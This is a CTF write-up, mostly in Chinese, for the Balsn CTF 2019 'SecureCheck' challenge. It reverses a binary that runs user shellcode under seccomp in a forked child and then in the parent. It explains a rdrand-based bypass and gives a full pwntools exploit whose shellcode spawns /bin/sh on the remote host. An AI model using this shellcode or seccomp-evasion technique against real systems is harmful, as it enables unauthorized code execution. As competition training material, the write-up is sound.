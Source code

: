 # Balsn CTF 2019

## Misc SecureCheck - 330

### Description

No system call no pain

```
nc securecheck.balsnctf.com 54321
```

Download

Author: Billy

### Solution

By [@HexRabbit](https://blog.hexrabbit.io)
Credits to [@jaidTw](https://github.com/jaidTw)

這題說起來其實相當容易，前提是不要被想法限制住

題目 binary 逆向完大概長這樣
```cpp
void exit_syscall_filter()
{
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  seccomp_load(ctx);
}


int main() {
    int status;
    char *buf = mmap(0, 
                    0x1000, 
                    PROT_WRITE|PROT_READ|PROT_EXEC,
                    MAP_SHARED|MAP_ANONYMOUS, -1, 0);
    read(0, buf, 0x1000);
    
    void (*f)() = (void (*)())buf;
    if (!fork()) {
        exit_syscall_filter();
        f();
    }
    else {
        wait(&status);
        if(!status)
            f();
    }
}
```

題目讓使用者輸入一段 shellcode，接著 `fork()` 讓 child 先執行 seccomp 後跳進 shellcode，而 parent 會以 `wait()` 等待 child 返回，若是返回值為零，parent 也會執行相同的 shellcode

比較麻煩的是，由於 fork 會完整複製(by copy-on-write)一份相同的 process context 給 child，所以在 child 中的記憶體操作是不會影響到 parent process 的

瞭解這些限制後解題思路便是:「寫一份 shellcode 可以在判別 parent/child 後執行不同的指令」

不過接下來就卡住了，因為在 seccomp 限制下實在是難以找到方式辨別 child/parent。再來便是想到一些存在於 vDSO 內的 function 可以繞過 seccomp，如 time, gettimeofday .. 等，但苦於執行 shellcode 前幾乎把所有 register 的值都清掉了，也就找不到 vDSO base

最後隊友 [@jaidTw](https://github.com/jaidTw) 想到，何不乾脆在 shellcode 中使用一些每次執行的結果都不同的指令，然後透過判斷後一邊執行一邊不執行 syscall 呢?

翻閱技術文件，找到幾個好用的指令
- rdtsc
- rdtscp
- rdrand
- rdseed

於是就解出來了XD

最終的 exploit 如下: 

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux', 'neww']
r = remote('securecheck.balsnctf.com', 54321)

sc = asm('''
    rdrand eax
    and eax, 0x1
    cmp ax, 0x1
    je SYSCALL
    mov eax, 0x3c
    xor edi, edi
    syscall
    
SYSCALL:
    lea rsp, [rdx+0xf00]
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    mov eax, 0x3b
    xor esi, esi
    xor edx, edx
    syscall
''')

r.send(sc)

r.interactive()
```
